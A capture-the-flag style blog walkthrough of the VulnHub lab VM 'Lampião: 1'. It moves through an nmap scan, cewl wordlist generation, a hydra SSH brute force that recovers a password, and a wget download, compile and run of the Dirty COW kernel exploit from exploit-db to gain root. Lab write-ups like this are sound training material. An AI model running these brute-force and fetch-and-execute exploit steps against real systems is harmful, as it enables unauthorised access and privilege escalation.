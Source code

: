 ```yaml
---
layout: post
date: 2018-08-06 10:42:58 +0000
title: "Lampião: 1 Walkthrough"
subtitle: "Hero or Villain?"
category: Walkthrough
tags: [VulnHub, "Lampiao"]
comments: true
image:
  feature: lampiao-1-walkthrough.jpg
  credit: Voltordu / Pixabay
  creditlink: https://pixabay.com/en/darth-vader-star-wars-geek-1207142/
---
```


This post documents the complete walkthrough of Lampião: 1, a boot2root [VM][1] created by [Tiago Tavares][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

"Captain" Virgulino Ferreira da Silva, better known as **Lampião**, was the most famous bandit leader of the Cangaço. The aim is to get `root`.

### Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.10.130
...
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 46:b1:99:60:7d:81:69:3c:ae:1f:c7:ff:c3:66:e3:10 (DSA)
|   2048 f3:e8:88:f2:2d:d0:b2:54:0b:9c:ad:61:33:59:55:93 (RSA)
|   256 ce:63:2a:f7:53:6e:46:e2:ae:81:e3:ff:b7:16:f4:52 (ECDSA)
|_  256 c6:55:ca:07:37:65:e3:06:c1:d6:5b:77:dc:23:df:cc (ED25519)
80/tcp   open  http?   syn-ack ttl 64
| fingerprint-strings:
|   NULL:
|     _____ _ _
|     |_|/ ___ ___ __ _ ___ _ _
|     \x20| __/ (_| __ \x20|_| |_
|     ___/ __| |___/ ___|__,_|___/__, ( )
|     |___/
|     ______ _ _ _
|     ___(_) | | | |
|     \x20/ _` | / _ / _` | | | |/ _` | |
|_    __,_|__,_|_| |_|
1898/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.7 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: CF2445DCB53A031C02F9B57E2199BC03
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Lampi\xC3\xA3o
```

`nmap` finds `22/tcp`, `80/tcp` and `1898/tcp` open. There's something interesting behind `80/tcp`.

![Son of a Bitch](/assets/images/posts/lampiao-1-walkthrough/8b3f5f0a.png)

Turns out that "Fi duma égua" is a not-so-elegant word for swearing. I leave it for the curious reader to find out what it means. :laughing:

### Drupal

Another service worth exploring is Drupal, which runs behind `1898/tcp`. Here's how it looks like.

![Drupal](/assets/images/posts/lampiao-1-walkthrough/5e40c98e.png)

To be honest, I'm always excited to see non-English language in display because that means I can generate a wordlist from it. There's always a high chance of getting a password judging from my experiences.

Let's use `cewl` to generate a wordlist from the post "**Lampião, herói ou vilão do Sertão?**". The command goes like this.

```
# cewl -w cewl.txt http://192.168.10.130:1898/?q=node/1
# wc -l cewl.txt
835 cewl.txt
```

### Hail Hydra

Notice the two usernames below: `tiago` and `eder`.

![Usernames](/assets/images/posts/lampiao-1-walkthrough/ba3ec0df.png)

Let's put them into a username list and go with `hydra` and the generated wordlist. Perhaps we can get lucky with SSH on our first attempt?

```
# echo tiago > usernames.txt
# echo eder >> usernames.txt
# hydra -L usernames.txt -P cewl.txt -f -e nsr -o hydra.txt -t 4 ssh://192.168.10.130
[22][ssh] host: 192.168.10.130   login: tiago   password: Virgulino
[STATUS] attack finished for 192.168.10.130 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

We are lucky.

### Low-Privilege Shell

Not too shabby.

![shell](/assets/images/posts/lampiao-1-walkthrough/bd92b620.png)

### Privilege Escalation

Let's perform some basic enumeration to determine what we're dealing with.

```
$ uname -a
Linux lampiao 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 i686 i686 GNU/Linux
$ lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 14.04.5 LTS
Release:	14.04
Codename:	trusty
```

I'm going to use a [script](https://github.com/mzet-/linux-exploit-suggester) to suggest a couple of local privilege escalation exploits relevant to the distribution and kernel.

```
$ wget -q -O /tmp/linux-exploit-suggester.sh https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
$ chmod +x /tmp/linux-exploit-suggester.sh
$ /tmp/linux-exploit-suggester.sh
...
[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Tags: debian=7|8,RHEL=5|6|7,[ ubuntu=14.04|12.04 ],ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847.cpp
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
```

Let's test the exploit out.

```
$ wget -q -O /tmp/40847.cpp https://www.exploit-db.com/download/40847.cpp
$ g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
$ ./dcow -s
```

![root](/assets/images/posts/lampiao-1-walkthrough/46ebbd22.png)

Boom.

### What's the Flag (WTF)?

![Flag](/assets/images/posts/lampiao-1-walkthrough/caa45484.png)

:dancer:

I wonder what's the significance of `lampiao.jpg` to the flag. Here's what `lampiao.jpg` looks like.

![Lampião](/assets/images/posts/lampiao-1-walkthrough/lampiao.jpg)

### Afterthought

The VM isn't hard. Don't think too deep, too far. Don't go down the rabbit hole. Tiago (the creator of this VM) laid down a bunch of teasers that may steer you off course.

One good example is `qrc.png` in the Drupal home directory.

![qrc.png](/assets/images/posts/lampiao-1-walkthrough/qrc.png)

It was decoded to "Try harder! muahuahua" :unamused:

Another example was the removal of read permissions of `/etc/cangaco/lampiao.*`. That's a good one. It piqued my curiosity so much I almost pulled out all my hair trying to read them.

[1]: https://www.vulnhub.com/entry/lampiao-1,249/
[2]: https://twitter.com/@tiagotvrs
[3]: https://www.vulnhub.com/
